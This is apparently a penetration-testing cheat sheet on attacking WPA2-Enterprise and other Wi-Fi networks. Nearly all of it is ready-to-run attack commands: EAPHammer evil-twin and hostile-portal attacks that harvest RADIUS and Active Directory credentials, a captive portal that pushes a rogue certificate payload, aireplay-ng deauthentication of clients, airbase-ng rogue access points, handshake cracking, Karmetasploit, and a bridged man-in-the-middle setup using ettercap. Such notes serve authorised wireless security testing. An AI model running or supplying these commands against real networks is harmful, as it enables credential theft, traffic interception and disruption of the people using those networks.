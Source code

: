 # Wifi - Enterprise Network

## WPA and WPA2 EAP

WPA EAP refers to the use of the Extensible Authentication Protocol (EAP) within the context of the Wi-Fi Protected Access (WPA) security standard for wireless networks. WPA is a suite of security protocols to secure wireless local area networks (WLANs) and is a response to the vulnerabilities of the older Wired Equivalent Privacy (WEP) standard. WPA EAP is specifically associated with the enterprise mode of WPA, which uses 802.1X authentication to provide a higher level of security compared to the personal mode of WPA, which uses a pre-shared key (PSK).


* [s0lst1c3/eaphammer](https://github.com/s0lst1c3/eaphammer) - Targeted evil twin attacks against WPA2-Enterprise networks.
    ```ps1
    git clone https://github.com/s0lst1c3/eaphammer.git
    ./kali-setup

    # generate certificates
    ./eaphammer --cert-wizard

    # launch attack
    ./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds

    # deauth users and wait for them to connect to our AP
    aireplay-ng -0 0 -a MAC_ADDR_AP -c MAC_ADDR_CIBLE wlan0mon
    ```

* [Stealing RADIUS Credentials Using EAPHammer](https://github.com/s0lst1c3/eaphammer/wiki/II.-Stealing-RADIUS-Credentials-Using-EAPHammer)
    ```ps1
    ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid Example --channel 2 --interface wlan0 --auth wpa-eap --creds
    ```

* [Stealing AD Credentials Using Hostile Portal Attacks](https://github.com/s0lst1c3/eaphammer/wiki/III.-Stealing-AD-Credentials-Using-Hostile-Portal-Attacks)
    ```ps1
    ./eaphammer --interface wlan0 --bssid 1C:7E:E5:97:79:B1 --essid EvilC0rp --channel 6 --auth wpa-eap --hostile-portal
    ./eaphammer --interface wlan0 --essid TotallyLegit --hw-mode n --channel 36 --auth open --hostile-portal
    ```

* [Performing Captive Portal Attacks - Evil Twin Attacks](https://github.com/s0lst1c3/eaphammer/wiki/V.-Performing-Captive-Portal-Attacks)
    ```ps1
    ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid HappyMealz --channel 149 --interface wlan0 --captive-portal
    ./eaphammer --captive-portal -e guestnet -i wlan0 --portal-template rogue-cert-prompt --lhost 10.0.0.10 --payload secure.crt
    ```


## Rogue Access Point

### WPA handshake

```powershell
airmon-ng start wlan0 3
airodump-ng -c 3 -d $ATTACKER_MAC -w airbase mon0

# basic fake AP
airbase-ng -c 3 -e $AP_SSID mon0
airbase-ng -c 3 -e $AP_SSID -z 4 -W 1 mon0
-W 1 : WEP

# get a WPA handshake if the client connect
aircrack-ng -w /pentest/passwords/john/password.lst airbase-01.cap
```


### Karmetasploit

```powershell
# install a dhcp server
apt install dhcp3-server

airmon-ng start wlan0 3
airbase-ng -c 3 -P -C 60 -e $AP_MAC -v mon0
-P: respond to all probes
ifconfig at0 up 10.0.0.1/24

mkdir -p /var/run/dhcpd
chown -R dhcpd:dhcpd /var/run/dhcpd
touch /var/lib/dhcp3/dhcpd.leases

"CONF DHCP FROM VIDEO 75" > /tmp/dhcpd.conf

touch /tmp/dhcp.log
chown -R dhcpd:dhcpd /tmp/dhcp.log
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp/log at0

karma.rc from metasploit
# comment the first 2 lines (load sqlite)
msfconsole -r /root/karma.rc
```


### Access Point MITM

```powershell
airmon-ng start wlan0 3
airbase-ng -c 3 -e $AP_SSID_SPOOFED mon0

# create a bridged interface
# apt-get install bridge-utils
brctl addbr hacker
brctl addif hacker eth0
brctl addif hacker at0

# assign IP addresses
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig hacker 192.168.1.8 up

# enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# mitm tools
driftnet
ettercap -G
Sniff > Unified sniffing > Hacker Interface
```


## References

* [Retex : Test d’intrusion Wi-Fi (WPA2-Enterprise) - @virtualsamuraii](https://virtualsamuraii.github.io/network/retex-pentest-wifi-wpa2-enterprise/)